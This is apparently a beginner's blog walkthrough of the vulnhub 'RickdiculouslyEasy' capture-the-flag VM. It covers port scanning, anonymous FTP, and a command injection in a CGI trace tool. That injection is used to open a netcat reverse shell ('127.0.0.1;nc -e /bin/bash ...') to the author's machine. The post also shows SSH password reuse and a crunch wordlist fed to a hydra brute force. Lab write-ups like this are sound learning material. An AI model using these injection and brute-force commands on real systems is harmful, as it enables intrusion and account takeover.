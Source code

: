 ```yaml
---
title: 'Pentest: owning rick and morty VM'
categories:
  - Penetration-Testing
tags:
  - Pentest
  - ctf
  - exploits

toc: true

---
```


My collegues told me about vulnhub, a website for peneteration tester to test their skills on boot2root VM's. On the site you'll find multiple boxes, with various difficulty levels. Since I just started out, I tried to find an easy VM to test out my skills. Quickly, I found the rick and morty VM, being a huge fan of the show, I wanted to have a look at it. [You can find the VM here:](https://www.vulnhub.com/entry/rickdiculouslyeasy-1,207/) A lot of vulnhub machines work with a capture the flag system, which means there are several files aka "flags" hidden in the machine, your goal is to collect them all. According to the discription this VM has 130 points worth of flags, our objective is to collect all points, and eventually get root access along the way...

**disclaimer: I'm a beginning peneteration tester so there are probably more efficient ways of owning this VM.**

# How I tackled this VM.

The first thing I did was do an nmap scan of the VM to find all open ports and hopefully some services.

`nmap 10.0.2.12 -p- -sV`

this gave us the following open ports and services:

```
PORT STATE SERVICE VERSION
21/tcp open ftp vsftpd 3.0.3
22/tcp open ssh?
80/tcp open http Apache httpd 2.4.27 ((Fedora))
9090/tcp open http Cockpit web service
13337/tcp open unknown
22222/tcp open ssh OpenSSH 7.5 (protocol 2.0)
60000/tcp open unknown
```
---
### Finding the first flag...

A good amount of open ports were found, now is the time to check them out:

 I started with the open ports I've never seen before which were 13337 & 60000:

  `nc 10.0.2.12 1337` We found our first flag worth 10 points! only 120 points more to go...

---

### Second Flag

After finding that flag I switched to port 60000:

`nc 10.0.2.12 60000`

This gave me some sort of shell, but with very little commands that could be used I used `ls` and saw a FLAG.txt file `cat` revealed the content, it's worth 10 points! 110 more to go

---

### Third Flag

After this I checked port 9090, being a http protocol, I used my webbrowser: another flag found! 10 points, 30 down, 100 to go...

---


### Fourth Flag

Time to check the FTP connection `ftp 10.0.2.12` I tried the anonymous user and empty password in case it was using anonymous FTP, turns out that was a good call because I got in! there was a flag file present, again worth 10 points, so we already have 40 points and didn't even take a look at the web application yet..

---

### Fifth FLAG

I accessed the website in my browser, being greeted by morty but other than that nothing special,... Time to use `dirb` to crawl the webpage and show any hidden folders: `dirb http://10.0.2.12`

This showed me there was a `/cgi-bin/` folder present I browsed it and saw two tools there /cgi-bin/root_shell.cgi and tracertool.cgi

Really? root_shell.cgi? after checking it out, it turned out to be trolling me. Let's take a look at the tracertool instead...

This turned out to be a legit tool, filling in an ip did indeed do a tracert, this gave me an indication that OS commands where being used in this application, so I tried to just do `ls` instead of filling in an ip, this did not work, which is obvious because it's running a tracert, tracert ls won't work.. So I tried the following: `127.0.0.1;ls` This worked! I got the contents of the current directory, I tried to exploit this further by checking if a tool called `netcad` was installed: `127.0.0.1;nc -h` turns out that it was indeed installed.

Time to try and setup a shell to my kali machine, so I started a listener on my normal machine

`nc -lvp <port to listen to>`

and on the webtool I issued: `127.0.0.1;nc -e /bin/bash 10.0.2.10 <port>`

Try and play with the ports to see if one works, I used port 4444

et voila! We have a shell into the webserver ;)

time to poke around a bit: going into the html folder and doing an `ls -lah` showed me a passwords folder! going to 10.0.2.12/passwords/ in the webbrowser revealed a flag, giving us another 10 points! We now have a total of 50 points There is a passwords.html page, this doesn't show much, but there is a comment from Rick saying he hid something but did not delete it, so I checked the source code and indeed, there was a password there called winter

Now we have a password, but we don't know any users yet... lets try and `cat /etc/passwd` to see all users on this machine And we get trolled, the `cat` command got replaced to show us an ASCII cat.. awesome... `vi /etc/passwd` works.

We see users called Summer,RickSanchez and Morty

Winter is the last name of Summer in the show, so let's try SSH `ssh Summer@10.0.2.12 -p 22222` password Winter and voila, we are logged in with SSH onto the machine, we don't need our shell we established with the web vulnerability anymore, and another flag is waiting in Summers homedir, sweet! 10 points, 60 in total, going strong!

---

### Sixth Flag

I also found out using `ls -lah` that Summer has read access to the other users directories, so naturally it's time to take a peek: Morty had some cool files in his directory, because the box we are in has limited tools, i copyed them over to my own machine using `scp -P 22222 Summer@10.0.2.12:/home/Morty/Safe_Password.jpg .` it's an image file and images have exif data, there is a password there! the password is Meeseek, I doubt that Rick or even Morty use Meeseek as password, there was also a file called journal.txt.zip I copied this over with `scp` using the same method as described above.

trying to unzip this file prompts me for a password, I typed in Meeseek and I got in reading the journal gave us the flag 131333 worth 20 points, bringing our total to 80 already.

---

### Yet Another FLAG

In the journal morty talked about rick brabelling about a safe, and when checking Rick's direcotry there is indeed a safe, we copy it to our machine and execute it with the password 131333 and we get a message from Rick:

```
(This is incase I forget.. I just hope I don't forget how to write a script to generate potential passwords. Also, sudo is wheely good.)
Follow these clues, in order
1 uppercase character
1 digit
One of the words in my old bands name.
```

And we also got a flag worth another 20 points, bringing our points to 100, we are now close to the end! If you don't watch Rick and Morty you can google what Rick's band name was, spoiler: it's called The Flesh Curtains It's time to create a wordlist with the above specifics, you can tackle this by making your own script which could look like this:

---

### To Root or not to root, that is the question.

```
from string import ascii_uppercase
for c in ascii_uppercase:
    for x in range(0, 10):
        print str(c) + str(x) + "Flesh"
        print str(c) + str(x) + "Curtains"
```

or you could just use crunch and be lazy :)

```
crunch 10 10 -t ,%Curtains -o ./wordlist.curtains
crunch 7 7 -t ,%Flesh -o ./wordlist.flesh
cat wordlist.curtains > wordlist
cat wordlist.flesh >> wordlist
```

Time to use Hydra and do a brute force attack!

`hydra -l RickSanchez -P wordlist ssh://192.168.56.102 -s 22222`

running this will give you the password (I'm not spoiling this one, do it yourself!)

Rick can escalate to root, and in root is the last flag! :)
